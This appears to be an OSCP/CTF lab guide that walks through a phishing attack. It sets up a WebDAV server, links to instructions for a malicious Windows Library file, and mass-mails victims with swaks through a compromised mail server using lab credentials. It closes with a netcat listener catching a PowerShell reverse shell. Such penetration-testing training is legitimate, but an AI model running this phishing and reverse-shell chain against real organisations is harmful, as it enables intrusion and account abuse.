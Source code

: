 ```yaml
---
description: >-
  This is a guide for the OSCP & other CTF's that may include phishing as part
  of the exam.
---
```


# OSCP Phishing Guide



## Outline

In this page we will conduct a phishing attack that goes as follows:

We open a WebDAV server on our Kali host, we create a malicious Microsoft Office Macro that we will send to the organization through a compromised Mail server. Once the victim clicks on the malicious macro it will open a reverse shell back to our Kali attack host.

## Start WebDAV Server

```shell-session
kali@kali:~$ mkdir /home/kali/beyond/webdav

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
...
: Serving on http://0.0.0.0:80 ...
```

## Create Malicious Windows Library

Next we'll create a malicious Windows Library file that we'll use to hold our reverse shell.

{% embed url="https://www.rotta.rocks/ethical-hacking/exploiting-microsoft-office/windows-library-files" %}
Create a malicious Windows Library File
{% endembed %}

## Send Email to Victims

In the beginning of this page we mentioned that we have access to a compromised mail server, there are various tools we can use to leverage SMTP. We will use swaks

```shell-session
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

## Success

After some time we can check back on our netcat listener and see that we successfully phished a victim.

```
elistening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> 
```
